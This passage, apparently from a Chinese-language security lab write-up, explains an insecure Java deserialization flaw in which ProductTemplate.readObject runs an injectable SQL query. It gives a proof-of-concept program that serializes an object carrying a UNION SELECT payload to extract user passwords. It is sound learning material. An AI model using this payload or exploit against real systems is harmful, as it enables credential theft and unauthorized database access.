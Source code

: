 ```java
        return product;
    }
}
```

先分析一下，ProductTemplate 类里面的 readObject 将进行 sql 语句查询，且存在 sql 注入。

如果我们能够提供一个 ProductTemplate 对象的序列化字符串，并构造这个对象的 id 为 sql 注入的 payload，就可以造成 sql 注入。

poc：

```java
// Main.java 文件
import data.productcatalog.ProductTemplate;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

class Main {
    public static void main(String[] args) throws Exception {
        ProductTemplate originalObject = new ProductTemplate("' UNION SELECT NULL, NULL, NULL, CAST(password AS numeric), NULL, NULL, NULL, NULL FROM users--");

        String serializedObject = serialize(originalObject);

        System.out.println("Serialized object: " + serializedObject);

        ProductTemplate deserializedObject = deserialize(serializedObject);

        System.out.println("Deserialized object ID: " + deserializedObject.getId());
    }

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
// ProductTemplate.java 文件
// All logic removed from ProductTemplate as it's not needed for serialization

package data.productcatalog;

import java.io.Serializable;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;
```
